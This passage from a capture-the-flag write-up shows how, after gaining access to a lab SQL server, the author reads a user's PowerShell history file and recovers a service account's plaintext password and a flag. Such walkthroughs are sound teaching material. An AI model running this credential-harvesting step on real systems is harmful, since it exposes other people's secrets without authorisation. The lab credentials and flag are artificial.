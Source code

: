 After obtaining access to `sql01.antennae.rv`, as `wei.jie.tan`, we can find the path to the user's PowerShell history file by running the following command.

> [https://stackoverflow.com/questions/44104043/how-can-i-see-the-command-history-across-all-powershell-sessions-in-windows-serv](https://stackoverflow.com/questions/44104043/how-can-i-see-the-command-history-across-all-powershell-sessions-in-windows-serv)

```
PS C:\Users\wei.jie.tan\Desktop> (Get-PSReadlineOption).HistorySavePath
C:\Users\wei.jie.tan\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

This file will contain a history of all the PowerShell commands that `wei.jie.tan` has executed. By examining this file, we can find the credentials of `svc_sql`:

```
PS C:\Users\wei.jie.tan\Desktop> cat (Get-PSReadlineOption).HistorySavePath
whoami
cd c:\SQL
sqlcmd -S localhost -Q "SELECT @@VERSION" -b
RV{AUd!T1ng_pS_CAn_8e_d@N6eROUs_e29abbb4bda372844a294da95c0c9218}
sqlcmd -S localhost -U "svc_sql" -P "P@ssw0rd_f0r_SQL-antennae" -Q "SELECT @@VERSION;"
sqlcmd -S localhost -U "svc_sql" -P "P@ssw0rd_f0r_SQL-antennae" -Q "EXEC sp_helpdb;"
Get-Content (Get-PSReadlineOption).HistorySavePath
exit
cd Desktop
ls
cat flag3.txt
cat (Get-PSReadlineOption).HistorySavePath
(Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath
```

Additionally, we can also find the 4th flag in this file.

# Flag 5: Silver

![](./assets/img/rv-sept/5.png)
